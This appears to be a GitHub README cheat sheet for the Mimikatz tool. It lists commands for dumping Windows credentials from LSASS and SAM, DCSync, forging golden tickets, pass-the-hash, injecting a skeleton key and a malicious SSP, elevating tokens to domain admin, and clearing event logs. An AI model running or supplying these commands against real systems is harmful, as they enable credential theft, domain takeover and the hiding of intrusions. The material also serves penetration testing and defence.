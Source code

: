 # --------------MIMIKATZ--------------

# ![mimikatz](./image/image.png)

## [Unofficial Documentation](https://adsecurity.org/?page_id=1821)
## [Github Releases](https://github.com/gentilkiwi/mimikatz/releases)
### Available Credential in OS: 
![memory Store in MS-OS](./image/chart.png)
### Most useable Commands:



# Most Popular Mimikatz Commands:

#### Here are just some of the most popular Mimikatz command and related functionality.

```privilege::debug ```: get debug rights (this or Local System rights is required for many Mimikatz commands).

```Invoke-Mimikatz -DumpCreds```: Dump all credential from the memory LSASS

```CRYPTO::Certificates``` – list/export certificates

```KERBEROS::Golden``` – create golden/silver/trust tickets

```KERBEROS::List``` – List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.

```KERBEROS::PTT``` – pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).

```LSADUMP::DCSync```– ask a DC to synchronize an object (get password data for account). No need to run code on DC.

```LSADUMP::LSA``` – Ask LSA Server to retrieve SAM/AD enterprise (normal, patch on the fly or inject). Use to dump all Active Directory domain credentials from a Domain Controller or lsass.dmp dump file. Also used to get specific account credential such as krbtgt with the parameter /name: “/name:krbtgt”

    /inject – Inject LSASS to extract credentials**
    /name – account name for target user account
    /id – RID for target user account
    /patch – patch LSASS. **

cmd i,g: ```mimikatz lsadump::lsa /inject```

```LSADUMP::SAM``` – get the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. This is used to dump all local credentials on a Windows computer.

```LSADUMP::Trust``` – Ask LSA Server to retrieve Trust Auth Information (normal or patch on the fly). Dumps trust keys (passwords) for all associated trusts (domain/forest).

```MISC::AddSid``` – Add to SIDHistory to user account. The first value is the target account and the second value is the account/group name(s) (or SID). Moved to SID:modify as of May 6th, 2016.

```MISC::MemSSP``` – Inject a malicious Windows SSP to log locally authenticated credentials.

```MISC::Skeleton``` – Inject Skeleton Key into LSASS process on Domain Controller. This enables all user authentication to the Skeleton Key patched DC to use a “master password” (aka Skeleton Keys) as well as their usual password.

```SEKURLSA::Ekeys``` – list Kerberos encryption keys
```SEKURLSA::Kerberos``` – List Kerberos credentials for all authenticated users (including services and computer account)

```SEKURLSA::Krbtgt``` – get Domain Kerberos service account (KRBTGT)password data

```SEKURLSA::LogonPasswords``` – lists all available provider credentials. This usually shows recently logged on user and computer credentials.

```SEKURLSA::Pth``` – Pass- theHash and Over-Pass-the-Hash

```SEKURLSA::Tickets``` – Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account .

```kerberos::list```, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).

```TOKEN::List``` – list all tokens of the system

```TOKEN::Elevate``` – impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box

```TOKEN::Elevate /domainadmin ```– impersonate a token with Domain Admin credentials.

```EVENT::Clear``` – Clear an event log

![log clear](./image/event.png)